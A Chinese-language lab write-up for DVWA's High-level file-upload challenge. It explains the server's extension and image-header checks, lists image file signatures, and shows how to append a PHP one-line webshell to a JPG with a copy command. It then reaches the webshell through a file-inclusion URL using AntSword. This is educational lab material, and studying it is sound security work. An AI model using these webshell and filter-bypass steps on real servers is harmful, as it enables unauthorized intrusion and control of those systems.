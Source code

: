 可以看到,High 级别的代码读取文件名中最后一个 `.` 后的字符串,期望通过文件名来限制文件类型,因此要求上传文件名形式必须是 `*.jpg`、`*.jpeg` 、`*.png` 之一.同时,getimagesize 函数更是限制了上传文件的文件头必须为图像类型.

漏洞利用
采用 %00 截断的方法可以轻松绕过文件名的检查,但是需要将上传文件的文件头伪装成图片,这里只演示如何借助 High 级别的文件包含漏洞来完成攻击.

科普下文件头相关的知识,常见的图片格式的文件头标识如下:
```
JPEG/JPG - 文件头标识 (2 bytes): FF D8 (SOI) (JPEG 文件标识) - 文件结束标识 (2 bytes): FF D9 (EOI)

PNG - 文件头标识 (8 bytes)   89 50 4E 47 0D 0A 1A 0A

GIF - 文件头标识 (6 bytes)   47 49 46 38 39(37) 61 |GIF89(7)a
```

更多格式的文件头标识参见文章: [通过文件头标识判断图片格式](https://www.cnblogs.com/Wendy_Yu/archive/2011/12/27/2303118.html)

文件头欺骗:伪造文件头,使文件头标识一样,其它部分我们修改为一句话木马,也就成了我们常说的图片一句话.

首先利用 copy 将一句话木马文件 php.php 与图片文件 1.jpg 合并

`copy 1.jpg/b+php.php/a shell.jpg`

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa34.png)

打开可以看到,一句话木马藏到了最后.顺利通过文件头检查,可以成功上传.

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa35.png)

注:我在 win10 裸机上进行的 phpstury 环境搭建,在这一步上传过程中,一直失败,后来发现是 windows defender 把上传上来的图片马杀掉了,所以出现同类问题可以检查下杀软情况

antSword 连接:

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file:///C:/phpStudy/PHPTutorial/WWW/dvwa/hackable/uploads/shell.jpg`

这里和上面一样,自己抓包加上 cookie
